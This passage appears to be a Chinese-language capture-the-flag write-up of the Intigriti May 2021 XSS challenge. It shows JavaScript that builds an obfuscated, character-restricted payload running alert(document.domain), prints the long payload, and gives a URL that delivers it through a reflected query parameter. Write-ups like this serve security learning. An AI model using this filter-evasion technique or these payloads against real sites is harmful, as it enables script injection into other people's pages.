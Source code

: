 ``` js
}

function getString(str) {
  return str.split('').map(c => mapping[c] || 'error:' + c).join('+')
}

const cons = getString('constructor')
mapping['('] = '`${[][' + cons + ']}`[14]'
mapping[')'] = '`${[][' + cons + ']}`[15]'

const ans = 
  "[][" + 
  getString('constructor') + 
  "]["+
  getString('constructor') +
  "]`_${" + 
  getString('alert(document.domain)') +
  "}```"

console.log(ans)
```

output(長度 851):

``` js
[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]`_${`${0/0}`[1]+`${e}`[21]+`e`+`${e}`[13]+`${``+{}}`[6]+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[14]+`${``[0]}`[2]+`${``+{}}`[1]+`${``+{}}`[5]+`${``[0]}`[0]+`${e}`[23]+`e`+`${``[0]}`[1]+`${``+{}}`[6]+`.`+`${``[0]}`[2]+`${``+{}}`[1]+`${e}`[23]+`${0/0}`[1]+`${``[0]}`[5]+`${``[0]}`[1]+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[15]}`` `
```

把上面這整串貼到網頁上的 input 然後按下提交，就會看到 alert 跳出來囉！

![](https://i.imgur.com/Rn4HYRZ.png)

做到這邊之後我就很開心地去送答案，結果得到了一個回覆，跟我說這是 self-XSS，提示我說可以多往 php 那邊去研究一點。

沒錯，我都忘記這是一個 self-XSS 了，因為需要自己把這串 payload 貼在 input 上面送出，就有點像是使用者必須自己把惡意程式碼貼過來一樣，這種通常沒辦法構成具有嚴重性的漏洞。

因此我就往 PHP 那邊去看，隨便試了一下發現 `c=xxx` 的內容會直接反映在 c.value 上，所以只要把上面那一串放到網址上面去就好了，變成：

```
https://challenge-0521.intigriti.io/captcha.php?c=[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]`_${`${0/0}`[1]%2b`${e}`[21]%2b`e`%2b`${e}`[13]%2b`${``%2b{}}`[6]%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[14]%2b`${``[0]}`[2]%2b`${``%2b{}}`[1]%2b`${``%2b{}}`[5]%2b`${``[0]}`[0]%2b`${e}`[23]%2b`e`%2b`${``[0]}`[1]%2b`${``%2b{}}`[6]%2b`.`%2b`${``[0]}`[2]%2b`${``%2b{}}`[1]%2b`${e}`[23]%2b`${0/0}`[1]%2b`${``[0]}`[5]%2b`${``[0]}`[1]%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[15]}``+`
```
